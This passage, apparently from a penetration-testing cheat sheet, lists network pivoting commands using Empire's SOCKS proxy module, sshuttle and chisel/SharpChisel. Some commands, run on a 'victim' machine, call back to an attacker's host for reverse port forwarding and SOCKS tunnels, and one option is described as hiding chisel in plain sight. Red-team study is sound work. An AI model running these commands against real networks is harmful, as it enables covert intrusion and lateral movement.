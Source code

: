 ```powershell
(Empire) > socksproxyserver
(Empire) > use module management/invoke_socksproxy
(Empire) > set remoteHost 10.10.10.10
(Empire) > run
```

## sshuttle

Transparent proxy server that works as a poor man's VPN. Forwards over ssh.

* Doesn't require admin.
* Works with Linux and MacOS.
* Supports DNS tunneling.

```powershell
pacman -Sy sshuttle
apt-get install sshuttle
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
sshuttle -vvr username@pivot_host 10.2.2.0/24 

# using a private key
$ sshuttle -vvr root@10.10.10.10 10.1.1.0/24 -e "ssh -i ~/.ssh/id_rsa" 

# -x == exclude some network to not transmit over the tunnel
# -x x.x.x.x.x/24
```

## chisel

```powershell
go get -v github.com/jpillora/chisel

# forward port 389 and 88 to hacker computer
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 

# SOCKS
user@victim$ .\chisel.exe client YOUR_IP:8008 R:socks
```

### SharpChisel

A C# Wrapper of Chisel : [shantanu561993/SharpChisel](https://github.com/shantanu561993/SharpChisel)

```powershell
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```
